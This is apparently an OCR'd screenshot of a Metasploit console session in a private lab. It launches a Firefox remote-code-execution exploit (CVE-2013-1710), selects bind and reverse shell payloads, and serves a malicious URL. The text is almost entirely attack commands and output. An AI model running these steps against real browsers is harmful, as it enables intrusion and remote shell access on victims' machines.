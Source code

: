 Payload information:

Description:
  This exploit gains remote code execution on Firefox 15-22 by abusing 
  two separate Javascript-related vulnerabilities to ultimately inject 
  malicious Javascript code into a context running with chrome:// 
  privileges.

References:
  http://cvedetails.com/cve/2013-1710/

msf exploit(firefox_tostring_console_injection) > exploit
[*] Exploit running as background job.

[*] Started reverse TCP handler on 192.168.110.128:4444 
[*] Using URL: http://0.0.0.0:8080/35U8eslHVbcnPL
[*] Local IP: http://192.168.110.128:8080/35U8eslHVbcnPL
[*] Server started.
msf exploit(firefox_tostring_console_injection) > exploit
[*] Exploit running as background job.

[-] Handler failed to bind to 192.168.110.128:4444:-  -
[-] Handler failed to bind to 0.0.0.0:4444:-  -
msf exploit(firefox_tostring_console_injection) > set URIPATH sneaky
URIPATH => sneaky
msf exploit(firefox_tostring_console_injection) > exploit
[*] Exploit running as background job.

[-] Handler failed to bind to 192.168.110.128:4444:-  -
[-] Handler failed to bind to 0.0.0.0:4444:-  -
msf exploit(firefox_tostring_console_injection) > set payload 
set payload firefox/exec               set payload generic/custom
set payload firefox/shell_bind_tcp     set payload generic/shell_bind_tcp
set payload firefox/shell_reverse_tcp  set payload generic/shell_reverse_tcp
msf exploit(firefox_tostring_console_injection) > set payload firefox/shell_bind_tcp 
payload => firefox/shell_bind_tcp
msf exploit(firefox_tostring_console_injection) > exploit
[*] Exploit running as background job.

[*] Using URL: http://0.0.0.0:8080/sneaky
[*] Local IP: http://192.168.110.128:8080/sneaky
[*] Server stopped.
[*] Server stopped.
[*] Server stopped.
msf exploit(firefox_tostring_console_injection) > exploit
[*] Exploit running as background job.

[*] Using URL: http://0.0.0.0:8080/sneaky
[*] Local IP: http://192.168.110.128:8080/sneaky
[*] Server started.
[*] Started bind handler
msf exploit(firefox_tostring_console_injection) > sessions -l

Active sessions
===============
